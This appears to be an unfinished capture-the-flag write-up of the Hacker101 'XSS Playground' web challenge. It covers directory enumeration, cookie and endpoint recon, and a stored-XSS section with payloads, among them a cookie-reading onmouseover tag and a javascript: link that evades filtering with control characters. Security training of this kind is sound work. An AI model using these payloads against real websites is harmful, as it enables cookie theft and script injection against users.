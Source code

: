 # XSS Playground by zseano - hacker101 ctf - web (moderate)

As the title implies, this will likely be a page with many xss vulnerabilities.

---

---

So it looks like we need to find 5 XSS types:

- 5 Reflective Cross Site Scripting
- 3 Stored Cross Site Scripting
- 2 DOM-Based Cross Site Scripting
- 1 CSP-Bypass Cross Site Scripting
- 1 use of XSS to leak "something"

## Recon

Burpsuite result for subdirectories:

```
+] Url:                     https://92439067193144fb4615f30930969353.ctf.hacker101.com/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 315]
/.htaccess            (Status: 403) [Size: 315]
/.htpasswd            (Status: 403) [Size: 315]
/api                  (Status: 301) [Size: 386] [--> http://92439067193144fb4615f30930969353.ctf.hacker101.com/api/]                              
/inc                  (Status: 301) [Size: 386] [--> http://92439067193144fb4615f30930969353.ctf.hacker101.com/inc/]                              
/index.php            (Status: 200) [Size: 12202]
/javascript           (Status: 301) [Size: 393] [--> http://92439067193144fb4615f30930969353.ctf.hacker101.com/javascript/]                       
/server-status        (Status: 403) [Size: 315]

```

None of these enpoints are accessible so we will continue with more manual recon.

#### Cookies

Upon initial page opening, there is a popup telling us the challenge. I also notice that the "want to start again?..." button resets our cookie (default 1 upon login) to 1 and the popup shows again after that.

This functionality first uses a get request for a /logout.php endpoint that redirects us to index.php (home page) and resets our cookies.

Burpsuite analysis:

---

Ok, so there are cookies welcome, rui, cui, that may be of interest further for potential privesc or other session based attacks.

#### Feedback option

There is a green feedback button to leave zseano feedback for his blog, this is handled at the /api/feedback.php endpoint. 

When I enter "testing" for the feedback submission, I look at burp and see that the "testing" is encoded and sent to the endpoint as "dGVzdGluZwo=". This is base64. So whatever we send as feedback is first encoded as base64.

Also, after submitting our feedback, we are instantly redirected to the index.php endpoint but with a msg parameter:

```
GET /index.php?msg=Thanks,%20your%20feedback%20has%20been%20received.%20We%20appreciate%20you%20sharing%20your%20feedback. HTTP/2
```

So based on this, it looks like we have two xss attack vectors: the feedback box and the msg parameter.

#### Report User

---

The report user button also presents another attack vector for xss.

The request and response:

---

From here we learn that the RUI cookie corresponds to the report user function, so CUI may be "create user" or something with user for the U portion.

Making another report changes the rui to a new value.

We also have another parameter "act" for the action.php endpoint that uses report for the report user function, this parameter is another avenue for exploration.


#### Commenting

We can also leave comments:

---

The request and response:

---

The comment action also uses the action.php endpoint and act parameter but instead the value is "comment" not report. Also a cookie is set for CUI so the CUI is likely "comment user id" and RUI is likely "report user id".

Adding another comment replaces the old one and gives us a new cui cookie. However when I use the previous CUI value the old comment is loaded on the browser.

#### Other API endpoints

Exploring the custom.js source, there are also other actions we can perform as parameters tagged to the action.php endpoint:

- getemail
- editbio

For the editbio function, I test with burpsuite and am able to change the bio for zseano:

change bio and get cookie (PUI) for updated bio request and response:

---

---


## 5 Reflective Cross Site Scripting

## 3 Stored Cross Site Scripting

### Report user

"normal" for "your name"

```
<ul>
	<li>normal — Pending review
		<i class="fas fa-user-clock" aria-hidden="true"></i>
	</li>
</ul>
```

```
\<a+onmouseover%3d"alert(document.cookie)"\>xxs+link\</a\>
```

```
<ul>
	<li>\
		<a>xxs link\ — Pending review
			<i class="fas fa-user-clock" aria-hidden="true">
				</i>
		</a>
	</li>
</ul>
```

When I try "<a></a>" for the name of the reporter, it is entered as valid html to the page.

Let's try some <a> header payloads:

<a href="javascript:alert(1)">Click Me</a> # this payload properly adds a link button that is clickable but the link is broken the javascript is not run.

<a href="#" onclick="alert(document.domain)">Click Me</a> # this payload loads a button but nothing happens when clicked - javascript is not working for some reason

Although javascript isn't loading through this vector, by being able to add our own <a> tags, we can redirect users to malicious links of our choosing, i.e. stealing cookie information. So far we have an open redirect vulnerability at the report user function.

Trying more <a> tag based XSS payloads, I come across one that bypasses the application filtering out javascript by adding spaces and meta chars before the JS:

<a href=" &#14;  javascript:alert('XSS');">Click Me</a>

---

## 2 DOM-Based Cross Site Scripting

## 1 CSP-Bypass Cross Site Scripting

## 1 use of XSS to leak "something"


## References

- Intigriti - "how to search for DOM-Based XSS!" youtube video
- https://portswigger.net/web-security/cross-site-scripting/reflected
- https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html